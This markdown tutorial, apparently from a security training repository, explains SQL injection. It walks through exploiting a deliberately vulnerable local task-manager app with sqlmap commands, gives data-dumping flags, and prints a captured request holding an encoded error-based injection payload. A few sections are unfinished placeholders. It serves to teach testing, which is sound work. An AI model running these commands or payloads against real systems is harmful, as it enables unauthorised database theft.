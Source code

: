 # SQL Injection
### Description
Ability to influence the structure of a SQL database query through unsafe includes of user input.

* ` stmt = "SELECT * FROM users WHERE username=" + INPUT[user]`

### Tool
####sqlmap
http://sqlmap.org - Command Line tool for dealing with SQL injection flaws

Required flags
- `-u URL` Target URL

Commonly-used configuration flags
- `--data=DATA` String to be sent through POST
- `--cookie=COOKIE` Cookie data for authenticated sessions
- `--proxy=PROXY` Route sqlmap requests through a proxy so you can see what it's doing
- `-p TESTPARAMETER` Parameter you want to check

Quick check data access flags
- `-b, --banner` Retrieve DBMS banner
- `--current-user`
- `--current-db`

Dump the data flags
- `--dump-all` careful, this can be slow
- `--dump` dump the targeted table data
- `-D DB` target database
- `-T TBL` target table
- `-C COL` target column


## Walkthroughs

| Application | Location | Parameter | Tool |
| ---- | ---- | ---- | ---- |
| Vulnerable Task Manager | http://127.0.0.1:8000/taskManager/forgot_password/ | email | sqlmap |
| Vulnerable Task Manager | http://127.0.0.1:8000/taskManager/7/project_details/ | URL parameter | sqlmap |

### Forgot Password SQL Injection
#### Step 1 - Validate SQL Injection Vulnerability
Validate access to the vulnerable task manager application, you should see the following login page.
* Insert Github link to login page image

Access the Forgot Password Page
* Insert github link to forgot password page

Validate that the email parameter throws a SQL error message by inserting `test@tm.com'` into the Email form field
* Insert github link to Django error message


#### Step 2 - Use sqlmap to confirm vulnerability
Since the forgot password page does not require authentication, use some of the above flags to confirm the vulnerability by using flags for posting data to the endpoint
```
sqlmap.py -u http://127.0.0.1:8000/taskManager/forgot_password/ --data="email=test@tm.com" --banner
```

sqlmap will step through every parameter and ask if it should check for possible sql injection, you can bypass this check using `-p email`

```
sqlmap.py -u http://127.0.0.1:8000/taskManager/forgot_password/ --data="email=test@tm.com" -p email --banner
```

#### Step 3 - Explore commands sent using sqlmap with a proxy
Since you have confirmed that the endpoint is vulnerable to SQL Injection and exploitable with sqlmap, now use Burp Suite to view the requests being sent to the server by dumping the full schema of the backend mysql database.

```
sqlmap.py -u http://127.0.0.1:8000/taskManager/forgot_password/ --data="email=test@tm.com" -p email --proxy=http://127.0.0.1:8080 --schema
```

The full request to dump a portion of the schema looks as follows, use Burp Suite HTTP History to view similar requests.

```
POST /taskManager/forgot_password/ HTTP/1.1
Content-Length: 258
Accept-Encoding: gzip, deflate
Connection: close
Accept: */*
User-Agent: sqlmap/1.2.8.15#dev (http://sqlmap.org)
Host: 127.0.0.1:8000
Cache-Control: no-cache
Content-Type: application/x-www-form-urlencoded; charset=utf-8

email=test%40tm.com%27%20AND%20EXTRACTVALUE%281890%2CCONCAT%280x5c%2C0x716a6a7071%2C%28SELECT%20MID%28%28IFNULL%28CAST%28schema_name%20AS%20CHAR%29%2C0x20%29%29%2C1%2C21%29%20FROM%20INFORMATION_SCHEMA.SCHEMATA%20LIMIT%202%2C1%29%2C0x71626a7071%29%29--%20UufD
```

### Project Details SQL Injection


## Challenges
http://demo.testfire.net

| Challenge | Difficulty |
| ---- | ---- |
| Bypass Login | :star: |
| That's a sketchy transaction | :star::star::star: |
| Make `jsmith` filthy rich (hint: Access Control chaining)	| :star::star::star::star::star:|
